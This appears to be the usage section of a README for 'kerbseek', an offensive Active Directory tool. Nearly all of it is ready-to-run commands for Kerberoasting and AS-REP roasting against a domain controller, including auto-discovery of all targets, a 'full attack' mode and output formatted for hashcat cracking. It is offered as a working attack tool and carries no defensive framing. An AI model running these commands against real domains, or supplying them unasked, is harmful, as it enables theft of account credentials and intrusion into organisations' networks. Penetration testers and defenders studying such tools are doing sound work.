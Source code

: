 ### Setup
```bash
cd Internal/kerbseek/
chmod +x kerbseek.py
```

---

## 🚀 Usage

### Kerberoasting

```bash
# Attack single SPN
./kerbseek.py --kerberoast --spn svc_sql -d CORP.LOCAL --dc dc01.corp.local -u user -p pass

# Attack multiple SPNs from file
./kerbseek.py --kerberoast --spns spns.txt -d CORP.LOCAL --dc dc01.corp.local -u user -p pass

# Attack all SPNs (auto-discovery)
./kerbseek.py --kerberoast-all -d CORP.LOCAL --dc dc01.corp.local -u user -p pass
```

### ASREPRoasting

```bash
# Attack single user (NO CREDENTIALS NEEDED!)
./kerbseek.py --asreproast --user testuser -d CORP.LOCAL --dc dc01.corp.local

# Attack multiple users from file
./kerbseek.py --asreproast --users asrep_users.txt -d CORP.LOCAL --dc dc01.corp.local

# Attack all vulnerable users (auto-discovery)
./kerbseek.py --asreproast-all -d CORP.LOCAL --dc dc01.corp.local
```

### Auto-Discovery Mode

```bash
# Combine LDAP enum + Kerberoasting
./kerbseek.py --auto dclist.txt -d CORP.LOCAL -u user -p pass

# Full attack (Kerberoast + ASREPRoast)
./kerbseek.py --auto dclist.txt -d CORP.LOCAL -u user -p pass --full
```

### Advanced Options

```bash
# Specify output format
./kerbseek.py --kerberoast --spns spns.txt -d CORP --dc dc01 -u user -p pass --format hashcat

# Request specific encryption type
./kerbseek.py --kerberoast --spn svc_sql -d CORP --dc dc01 -u user -p pass --enctype 23

# Increase threading
./kerbseek.py --kerberoast --spns spns.txt -d CORP --dc dc01 -u user -p pass --threads 10

# JSON output
./kerbseek.py --kerberoast --spns spns.txt -d CORP --dc dc01 -u user -p pass --json
```

---
